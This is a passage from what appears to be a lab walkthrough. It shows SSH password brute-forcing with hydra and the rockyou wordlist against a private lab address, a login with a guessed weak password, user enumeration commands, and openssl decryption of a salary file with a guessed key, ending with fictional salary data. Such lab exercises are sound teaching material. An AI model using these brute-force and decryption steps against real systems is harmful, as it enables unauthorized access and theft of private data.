 3. **Advanced Password Lists:**
   For comprehensive attacks, use:
   ```bash
   # Standard comprehensive wordlist
   hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 172.20.0.3 ssh -t 4
   
   # Custom wordlist from OSINT research
   # Create passwords.txt from gathered intelligence
   ```

4. **Educational Limitation:**
   This lab uses reversed usernames for time efficiency. In real engagements, extensive OSINT would be conducted first to build context-specific password lists.

### SSH Access and Exploration
```bash
ssh aadams@172.20.0.3
# Password: smadaa

# Once inside:
whoami
id
ls -la
pwd
find . -name "*.txt" -o -name "*.csv" 2>/dev/null
```

**Expected Findings:**
- User: aadams
- Home directory access
- Limited privileges (non-root user)

## Phase 4: File Analysis & Decryption

### Decrypt Salary File
```bash
# Try common passwords for decryption
openssl enc -aes-256-cbc -d -salt -in salary_dec2003.csv.enc -out salary.csv -k "HeadOfSecurity"
```

**Expected Success:** File decrypts successfully

### View Decrypted Content
```bash
cat salary.csv
```

**Expected Content:**
```
Employee Name,Department,Annual Salary,Start Date
Alice Adams,Human Resources,55000,2001-03-15
Bob Banter,Information Technology,65000,2000-08-22
Carol Coffee,Finance,58000,2002-01-10
Dave Deeds,Marketing,52000,2003-05-18
Eve Eikman,Legal Affairs,72000,1999-11-30
```
